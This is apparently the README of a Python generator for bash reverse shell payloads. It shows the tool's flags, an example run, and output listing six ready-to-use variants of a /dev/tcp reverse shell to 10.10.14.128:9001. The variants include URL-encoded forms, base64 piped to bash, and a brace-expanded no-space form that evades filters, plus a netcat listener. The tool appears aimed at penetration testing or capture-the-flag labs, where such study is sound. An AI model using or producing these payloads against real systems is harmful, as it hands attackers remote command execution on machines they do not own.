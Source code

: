# Simple-generator-reverse-shell-for-bash

**Description**

Simple generator reverse shell payload for bash in python

Usage:
```
$ ./genRevShell.py [flags]
```
Flags:
```
-a, --addr    Address for reverse connect
-p, --port    Port for reverse connect, 9001 by default
-r            Run the netcat on localhost
```
Example:
```
$ ./genRevShell.py -a 10.10.14.128 -r
```
Output:
```
[*] Input address is 10.10.14.128
[*] Input port is 9001

[1] The bash payload in plaintext:

bash  -c 'bash -i >& /dev/tcp/10.10.14.128/9001 0>&1'

[2] The bash payload in URL(plaintext):

bash%20%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.128%2F9001%200%3E%261%27

[3] The bash payload in Base64():

echo YmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTI4LzkwMDEgMD4mMSc=|base64 -d|bash -i

[4] The bash payload in URL(Base64()):

echo%20YmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTI4LzkwMDEgMD4mMSc%3D%7Cbase64%20-d%7Cbash%20-i

[5] The bash payload in Base64() with no spaces:

{echo,YmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTI4LzkwMDEgMD4mMSc=}|{base64,-d}|{bash,-i}

[6] The bash payload in URL(Base64()) with no spaces:

%7Becho%2CYmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTI4LzkwMDEgMD4mMSc%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D

[+] Run the netcat on localhost on 9001:

Listening on 0.0.0.0 9001
```
My favorite choice is [3] payload :)
